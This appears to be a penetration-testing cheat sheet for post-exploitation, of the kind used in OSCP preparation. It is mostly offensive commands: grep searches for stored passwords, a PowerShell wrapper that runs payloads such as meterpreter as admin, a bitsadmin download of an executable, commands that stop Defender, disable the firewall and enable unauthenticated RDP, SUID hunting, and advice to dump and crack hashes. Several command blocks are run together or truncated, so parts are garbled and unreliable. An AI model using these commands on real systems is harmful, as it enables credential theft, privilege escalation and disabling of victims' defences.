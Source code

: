 # Post Exploitation

```
grep -rnw '/' -ie 'pass' --color=alwaysgrep -rnw '/' -ie 'DB_PASS' --color=alwaysgrep -rnw '/' -ie 'DB_PASSWORD' --color=alwaysgrep -rnw '/' -ie 'DB_USER' --color=always
```

## File Upload on linux systems via base64 encoding Converting a file to base64: <a href="#file-upload-on-linux-systems-via-base64-encoding-converting-a-file-to-base-64" id="file-upload-on-linux-systems-via-base64-encoding-converting-a-file-to-base-64"></a>

On~~c~~e the file is converted to base64, you can just create a new file on the remote system and copy the base64 output of the above file into it. Next step would be to reverse the base64 to binary

```
cat fileWithBase64Content | base64 -d > finalBinary
```

You can also use the smbserver.py from Impacket’s repo to host a temporary smb server and fetch files in windows from remote smb servers using the net use command.

## PSexec Shells of Remote Systems <a href="#psexec-shells-of-remote-systems" id="psexec-shells-of-remote-systems"></a>

Eg: Get cmd.exe shell of remote system with user administrator and password as [\[email protected\]](https://oscp.infosecsanyam.in/cdn-cgi/l/email-protection)

## Powershell Sudo for Windows  <a href="#powershell-sudo-for-windows" id="powershell-sudo-for-windows"></a>

There maybe times when you know the creds to admin, but will have a low privileged shell. Unlike Linux, we cannot sudo on windows machines. So, I wrote a simple powershell script for that which can run a separate file as admin. You can run a batch file to add a new superuser or just execute a meterpreter binary as admin. The below command is to be run in a powershell window:

```
​$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'
```

If however you want to run the powershell from a cmd prompt, you can run store the above command in a xyz.ps1 file and run it in cmd as below:

```
powershell -ExecutionPolicy Bypass -File xyz.ps1​
```

Download files in Windows with

bitsadmin bitsadmin /transfer mydownloadjob /download /priority normal http:///xyz.exe C:\Users\\%USERNAME%\AppData\local\temp\xyz.exe

Disable firewall/defender and enable RDP for all Sometimes you will have the admin creds and may require an RDP Session to find out what exactly is going on in the backend for post exploitation. Below commands will help you disable firewall and enable RDP over insecure connections

```
sc stop WinDefendnetsh advfirewall show allprofilesnetsh advfirewall set allprofiles state offnetsh firewall set opmode disablereg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /freg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

Print files with the line number where the string is found grep -rnw '/' -ie 'password' --color=always

## Find files with SUID permission  <a href="#find-files-with-suid-permission" id="find-files-with-suid-permission"></a>

```
find / -perm -4000 -type f 2>/dev/null
```

## Find files with open permissions <a href="#find-files-with-open-permissions" id="find-files-with-open-permissions"></a>

```
 find / -perm -777 -type f 2>/dev/null
```

## Find files with SUID permission for current user <a href="#find-files-with-suid-permission-for-current-user" id="find-files-with-suid-permission-for-current-user"></a>

```
find / perm /u=s -user `whoami` 2>/dev/nullfind / -user root -perm -4000 -print 2>/dev/null
```

## Find files with writable permission for current user or current group  <a href="#find-files-with-writable-permission-for-current-user-or-current-group" id="find-files-with-writable-permission-for-current-user-or-current-group"></a>

```
find / perm /u=w -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -f -user `whoami` 2>/dev/nullfind / -perm /u+w -user `whoami` 2>/dev/nul
```

## Find directories with writable permissions for current user or current group  <a href="#find-directories-with-writable-permissions-for-current-user-or-current-group" id="find-directories-with-writable-permissions-for-current-user-or-current-group"></a>

```
find / perm /u=w -type -d -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -d -user `whoami` 2>/dev/null
```

In order to move horizontally on the network we need to know as much about the machine as possible. We need to loot it. These are some things that must be done on every compromised machine.

### Tcp dump <a href="#tcp-dump" id="tcp-dump"></a>

Who else is connected to the machine?

### Dump the hashes <a href="#dump-the-hashes" id="dump-the-hashes"></a>

It is always good to have a list of all the hashes and crack them. Maybe someone is reusing the password.

### To what is the machine connected? <a href="#to-what-is-the-machine-connected" id="to-what-is-the-machine-connected"></a>

netstat

ipconfig

### Email and personal files <a href="#email-and-personal-files" id="email-and-personal-files"></a>

### Logs <a href="#logs" id="logs"></a>

​ ​
